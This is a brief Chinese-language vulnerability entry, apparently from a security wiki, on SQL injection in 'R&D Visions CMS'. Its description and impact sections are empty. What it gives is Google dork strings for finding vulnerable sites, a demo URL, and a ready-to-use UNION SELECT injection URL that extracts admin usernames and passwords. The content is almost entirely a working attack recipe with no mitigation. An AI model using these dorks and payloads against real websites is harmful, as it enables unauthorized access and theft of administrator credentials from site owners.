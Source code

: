 # R&D Visions CMS SQL Injection

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### Google Dork:

intext:"Website by R&D Visions" inurl:.php?id=

intext:"CMS System by R&D Visions"

### Demo:

https://www.0-sec.org/home.php?newid=53[SQLi]

### Injection:

https://www.0-sec.org/home.php?newid=-53+Union+Select+1,Group_ConCat(user,0x3a,pass),3,4,5,6,7,8,9,10,11,12+From+admin_user_log--
